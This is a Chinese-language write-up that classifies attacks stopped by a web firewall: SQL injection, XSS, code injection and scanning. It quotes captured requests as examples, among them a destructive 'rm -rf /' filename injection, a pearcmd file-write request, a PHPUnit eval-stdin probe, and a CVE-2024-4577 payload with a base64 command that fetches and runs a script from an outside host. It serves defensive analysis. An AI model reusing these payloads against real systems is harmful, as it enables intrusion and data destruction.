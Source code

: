 # WAF 拦截到的攻击行为分类
## SQL 注入
### 定义 ：
攻击者通过在 Web 应用程序的输入字段中插入恶意 SQL 代码，借助 Web 应用的数据库执行漏洞，获取、篡改或删除数据。
### 常见攻击方式 ：
#### 经典 SQL 注入 ：
在输入框中直接注入恶意 SQL 查询语句，如在登录页面的用户名或密码输入框中输入 “‘ OR ‘1’=‘1”，试图绕过登录验证。
#### 盲注 ：
攻击者无法看到 SQL 查询的具体错误信息，但通过反复提交请求并观察应用的响应变化，如响应时间、页面内容差异等，逐步推测数据库结构和数据。
#### 基于时间的盲注 ：
通过控制 SQL 查询的执行时间，根据页面响应时间的长短来间接获知数据库的内容。
## XSS 注入
### 定义 ：
攻击者将恶意脚本注入到 Web 页面中，当受害者访问该页面时，恶意脚本在用户的浏览器中执行，从而窃取用户敏感信息、劫持用户会话或在页面上展示欺诈性内容。
### 常见攻击类型 ：
#### 存储型 XSS ：
攻击者将恶意脚本存储在服务器端，如在留言板块、数据库中保存恶意脚本，当其他用户访问时，这些脚本会自动执行。
#### 反射型 XSS ：
攻击者通过构造包含恶意脚本的 URL 或请求参数，诱使受害者点击链接，恶意脚本随之被嵌入到请求中并执行。
#### 基于 DOM 的 XSS ：
利用客户端的 JavaScript 代码进行脚本注入，通过修改页面的 DOM 结构，使恶意脚本执行。
## 代码注入
### 定义 ：
攻击者向应用程序中插入恶意代码，使应用程序执行非预期的操作，常见的有命令注入、脚本注入等。
### 常见攻击方式 ：
##### 命令注入 ：
攻击者通过应用程序的输入点，如表单、查询参数等，注入操作系统命令，如果应用程序未对输入进行严格过滤和验证，就可能执行这些恶意命令，导致敏感信息泄露、系统受损等。
例如
文件名字段未过滤特殊字符，提交的payload包含，且后台处理时未做处理可能导致注入的命令被执行
```
test.jpg; rm -rf /
```

##### 脚本注入 ：
例如
```html
GET /index.php?lang=../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/&/<?echo(md5("hi"));?>+/tmp/index1.php HTTP/1.1
Host: 182.140.209.42:443
Accept: */*
Upgrade-Insecure-Requests: 1
User-Agent: Custom-AsyncHttpClient
Connection: keep-alive
```

```html
POST /hello.world?%ADd+allow_url_include%3d1+%ADd+auto_prepend_file%3dphp://input HTTP/1.1
Host: 182.140.209.44:443
Accept: */*
Upgrade-Insecure-Requests: 1
User-Agent: Custom-AsyncHttpClient
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 221

<?php shell_exec(base64_decode("WD0kKGN1cmwgaHR0cDovLzEwNy4xNTAuMC4xMDMvc2ggfHwgd2dldCBodHRwOi8vMTA3LjE1MC4wLjEwMy9zaCAtTy0pOyBlY2hvICIkWCIgfCBzaCAtcyBjdmVfMjAyNF80NTc3LnNlbGZyZXA=")); echo(md5("Hello CVE-2024-4577")); ?>
```

```
GET /vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1
Host: 182.140.209.44:443
Accept: */*
Upgrade-Insecure-Requests: 1
User-Agent: Custom-AsyncHttpClient
Connection: keep-alive
Content-Type: text/plain
Content-Length: 33

<?php echo(md5("Hello PHPUnit"));
```

## 扫描
#### 针对常见接口的扫描 ：
攻击者常对一些常见的 Web 接口进行扫描，如 wordpress 的 wp-admin、openapi 的 /openapi/、通用的 /admin/ /test/ /.env 等，以寻找可利用的漏洞或敏感信息。虽当前产品未使用，但此类扫描行为仍需关注，防止未来业务扩展后产生风险。
```
GET /openapi/v2 HTTP/1.1
user-agent: Mozilla/5.0 (iPhone; CPU iPhone OS 17_5_1 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/17.4.1 Mobile/15E148 Safari/604.1
accept: application/json
accept-encoding: gzip, br, deflate
host: 182.140.209.44

```

```
GET /.env.bak HTTP/1.1
user-agent: Mozilla/5.0 (iPhone; CPU iPhone OS 17_5_1 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/17.4.1 Mobile/15E148 Safari/604.1
accept: */*
accept-encoding: gzip, br, deflate
host: 182.140.209.44
```

#### 搜索引擎的蜘蛛或其他爬虫 ：
搜索引擎会主动请求 /robot.txt 以了解网站可爬取的范围，但部分扫描脚本也会利用该文件来获取网站信息，存在一定风险。鉴于当前产品无需搜索引擎爬取，可在 WAF 上配置拦截策略，禁止搜索引擎爬虫和恶意扫描脚本的访问，同时设置合理的访问频率限制，防止爬虫对服务器造成过大压力。
